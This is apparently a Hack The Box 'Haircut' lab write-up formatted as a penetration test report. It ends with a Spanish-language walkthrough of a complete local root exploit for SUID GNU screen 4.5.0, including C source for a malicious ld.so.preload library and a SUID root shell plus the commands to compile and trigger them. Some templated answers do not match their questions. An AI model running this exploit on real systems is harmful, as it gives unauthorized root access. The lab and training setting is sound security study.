# Offensive Security Assessment Report: Haircut


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Haircut** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Haircut |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many TCP ports are listening on Haircut?

* **Observed Evidence / Output:** 2



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What is the relative path to the directory that is discoverable on the webserver?

* **Observed Evidence / Output:** /uploads



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


> **Assessment Query / Target Milestone:** What is the relative path to the PHP page that checks "Hairdresser's location"?

* **Observed Evidence / Output:** /exposed.php



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What common Linux program / library is the site using to fetch webpages?

* **Observed Evidence / Output:** curl



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the single character curl option to save a file to the given location?

* **Observed Evidence / Output:** O


> **Assessment Query / Target Milestone:** What user is the website running as?

* **Observed Evidence / Output:** www-data 



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the maria user's home directory.**

* **Observed Evidence / Output:** 18a4d7ec7fdb788a666d77c601c9914c



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path of the file owned by root that has the SetUID permission and has to do with terminal management?

* **Observed Evidence / Output:** fe0735e95f5cc665993b2653cc28c844



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


> 
> 
> 
> # Haircut (HTB) – Privesc con `screen` 4.5.0 (ld.so.preload)
> 
> ## 0) Requisitos rápidos (sanity check)
> 
> ```bash
> bash
> CopiarEditar
> screen -v                          # Debe ser 4.5.0
> ls -l $(command -v screen)         # Debe tener SUID root: -rwsr-xr-x root root ...
> 
> ```
> 
> > Si no es 4.5.0 o no es SUID → este vector no aplica.
> > 
> 
> ---
> 
> ## 1) Fix del entorno de compilación
> 
> En la víctima (no en tu Kali) a veces `gcc` no encuentra `cc1` por PATH roto o instalación mínima.
> 
> ```bash
> bash
> CopiarEditar
> export PATH=/usr/bin:/bin:/usr/sbin:/sbin:$PATH
> which gcc || echo "gcc no está instalado en la víctima"
> 
> ```
> 
> - **Error que viste:** `gcc: error trying to exec 'cc1': execvp: No such file or directory`
>     
>     **Causa:** PATH incorrecto / toolchain incompleto.
>     
>     **Mitigación:** Ajustar PATH como arriba. Si **no hay gcc**, compila en tu Kali los binarios/so y súbelos a `/tmp` de la víctima.
>     
> 
> ---
> 
> ## 2) Biblioteca maliciosa (`/tmp/libhax.so`)
> 
> **Objetivo:** aprovechar `ld.so.preload` to execute nuestro constructor al arrancar cualquier binario setuid (o al forzar carga). El constructor cambia owner/perm de `/tmp/rootshell`, borra preload y sale.
> 
> ### 2.1) Fuente corregido (con *headers* correctos)
> 
> > Tus “implicit declaration” venían por falta de headers: chmod() está en <sys/stat.h>, chown()/unlink() en <unistd.h>.
> > 
> 
> ```c
> c
> CopiarEditar
> // /tmp/libhax.c
> #include <stdio.h>
> #include <sys/types.h>
> #include <sys/stat.h>   // chmod()
> #include <unistd.h>     // chown(), unlink()
> 
> __attribute__((constructor))
> void dropshell(void) {
>     chown("/tmp/rootshell", 0, 0);
>     chmod("/tmp/rootshell", 04755);
>     unlink("/etc/ld.so.preload");
>     printf("[+] done!\n");
> }
> 
> ```
> 
> ### 2.2) Guardar y compilar
> 
> ```bash
> bash
> CopiarEditar
> cat > /tmp/libhax.c <<'EOF'
> #include <stdio.h>
> #include <sys/types.h>
> #include <sys/stat.h>
> #include <unistd.h>
> 
> __attribute__((constructor))
> void dropshell(void) {
>     chown("/tmp/rootshell", 0, 0);
>     chmod("/tmp/rootshell", 04755);
>     unlink("/etc/ld.so.preload");
>     printf("[+] done!\n");
> }
> EOF
> 
> gcc -fPIC -shared -o /tmp/libhax.so /tmp/libhax.c -ldl
> 
> ```
> 
> - **Si aún sale el warning de `chmod`/`chown`:** revisa que pegaste **exactamente** los `#include` y que no hay caracteres raros.
> - **Si no hay `gcc`:** compílalo en tu Kali y súbelo:
>     
>     ```bash
>     bash
>     CopiarEditar
>     # En Kali
>     gcc -fPIC -shared -o libhax.so libhax.c -ldl
>     # Subir a víctima como /tmp/libhax.so
>     
>     ```
>     
> 
> ---
> 
> ## 3) Rootshell SUID (`/tmp/rootshell`)
> 
> **Objetivo:** tener un binario que eleve a root cuando el preload dispare el constructor.
> 
> ### 3.1) Fuente corregido
> 
> > Usamos execl("/bin/sh", "sh", "-p", NULL) para mantener privilegios (-p en dash/bash). Añadimos headers de set*id() y execl().
> > 
> 
> ```c
> c
> CopiarEditar
> // /tmp/rootshell.c
> #include <unistd.h>   // setuid, setgid, seteuid, setegid, execl
> #include <stdlib.h>
> 
> int main(void) {
>     setuid(0); setgid(0);
>     seteuid(0); setegid(0);
>     execl("/bin/sh", "sh", "-p", NULL);
>     return 0;
> }
> 
> ```
> 
> ### 3.2) Guardar y compilar
> 
> ```bash
> bash
> CopiarEditar
> cat > /tmp/rootshell.c <<'EOF'
> #include <unistd.h>
> #include <stdlib.h>
> 
> int main(void) {
>     setuid(0); setgid(0);
>     seteuid(0); setegid(0);
>     execl("/bin/sh", "sh", "-p", NULL);
>     return 0;
> }
> EOF
> 
> gcc -o /tmp/rootshell /tmp/rootshell.c
> 
> ```
> 
> - **Tus warnings anteriores** (`implicit declaration of setuid/setgid/.../execvp`) → faltaban `<unistd.h>` y además `execvp` estaba mal usado (necesita `argv[]`). Con `execl` evitamos eso.
> 
> ---
> 
> ## 4) Abusar de `screen` para escribir `/etc/ld.so.preload`
> 
> **Objetivo:** inyectar la ruta de nuestra `.so` en `ld.so.preload` usando la funcionalidad SUID de `screen`.
> 
> ```bash
> bash
> CopiarEditar
> umask 000
> /usr/bin/screen -D -m -L ld.so.preload echo -ne '\n/tmp/libhax.so'
> /usr/bin/screen -ls
> 
> ```
> 
> - `umask 000`: asegura permisos mundiales al archivo que se cree.
> - El primer comando **fuerza a `screen` (SUID root)** a crear/escribir `ld.so.preload` con la línea `/tmp/libhax.so`.
> - `screen -ls` **dispara la carga** y por tanto el constructor de `libhax.so`.
> 
> **Verifica:**
> 
> ```bash
> bash
> CopiarEditar
> cat /etc/ld.so.preload    # Debe contener: /tmp/libhax.so
> 
> ```
> 
> ---
> 
> ## 5) Gana root y limpia (OPSEC)
> 
> ```bash
> bash
> CopiarEditar
> /tmp/rootshell
> id
> # Deberías ser root
> 
> # Limpieza (muy importante):
> : > /etc/ld.so.preload
> rm -f /tmp/libhax.so /tmp/libhax.c /tmp/rootshell.c
> # (Opcional) deja /tmp/rootshell o bórralo si ya pillaste la flag
> 
> ```
> 
> ---
> 
> ## 6) Validación final
> 
> ```bash
> bash
> CopiarEditar
> file /tmp/rootshell
> # Debe ser ELF 64-bit (o 32-bit según la máquina), dinámicamente enlazado, not stripped
> 
> ls -l /tmp/rootshell
> # Tras el exploit, owner debe ser root y modo -rwsr-xr-x (4755)
> 
> ```
> 
> Flag:
> 
> ```bash
> bash
> CopiarEditar
> cat /root/root.txt
> 
> ```
>

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
